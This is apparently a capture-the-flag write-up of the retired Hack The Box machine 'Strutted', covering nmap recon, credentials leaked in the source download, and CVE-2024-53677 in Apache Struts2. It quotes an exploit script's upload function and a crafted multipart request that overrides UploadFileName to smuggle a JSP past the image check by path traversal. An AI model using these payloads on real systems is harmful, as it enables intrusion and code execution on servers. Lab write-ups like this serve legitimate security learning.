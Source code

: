 This is a retired Medium machine. Doing for practice!
# Init
Starting with `nmap`:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted]
└─$ sudo nmap -sC -sV -oA nmap/strutted 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 04:18 EDT
Nmap scan report for 10.10.11.59
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

So, `ssh` and `http` are running.  The website is some image upload and sharing site. You can download source code too!
![[Pasted image 20250902042657.png]]

Although, after uploading the image, you cannot "Copy Shareable Link"! The README in source code does instruct that you can access the image via `http:localhost:8080/s/{id}` where `id` is some unique identifier

We do get a id and password:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted/source_code]
└─$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Looking at the source code, the MVC is (Apache) `Struts2` with version `6.3.0.1`.

As we can upload file, googling CVE for this version, there is [CVE-2024-53677](https://www.cve.org/CVERecord?id=CVE-2024-53677) which allows arbitrary path traversal and RCE. [POC](https://github.com/EQSTLab/CVE-2024-53677.git)

I tried the exploit in the above posts, but it does not work directly. The working of the exploit is also not straight forward. So, I look deeper into what causes the vulnerability and how can we craft our exploit. This post explains quite well: https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm.

We can have a look at the EQSTLab's exploit script. 
```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

It upload "two" files within same request but with different "name".

So, Struts has a series of Interceptor classes that run by default, including one called the `FileUploadInterceptor`. Struts has this concept of the object graph navigation library (OGNL), which has a stack. If there are two objects on the stack, and it allows referencing some property, say `name`, and that will work down the stack looking for the first object that has that property and return that.
If a POST request triggers the `FileUploadInterceptor`, you can have other POST parameters that reference parts of that object by the OGNL stack. In practice, that looks like:
```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------257100227792270914038585987
Content-Length: 518
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=B49FBC232ACDD342D2ABC2C6B7C0342D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="upload"; filename="Screenshot_20250902_042406.png"
Content-Type: image/png

PNG

IHDR-uijhlajkdhfaljfadf af;fda
-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="top.UploadFileName"

different.txt

helloworld
-----------------------------257100227792270914038585987--
```

The first form data parameter will be processed into an object by the `FileUploadInterceptor`. Then the second parameter is processed, setting the `UploadFileName` (Which an internal variable that Interceptor uses) for the top of the stack (the first parameter) to this new value. This trick allows for bypassing other rules put in place about where a file can be written, including directory traversals. This means the "filename" i.e. where file is written can be modifier. So we can modify it in such a way that it can be accessed by us via browser!
NOTE: One important thing to consider which I found after reading about custom payload, the first file upload needs to have `name=Upload` with an Upper case `U`. Otherwise this exploit does not work.
![[Pasted image 20250905175120.png]]

This portal only allows image upload. Upload any other file format fails. However, any image file with valid magic header can be uploaded even though the rest of the file is corrupted. So we can sort of embed the script inside the "PNG" file keeping the header same as PNG and providing path i.e. writing the file to a path which we can access/read.

However, we cannot access the file directly at `/uploads/[date]/[filename]`. As per the code, it actually provides us with a sharable link at endpoint `/s`. 



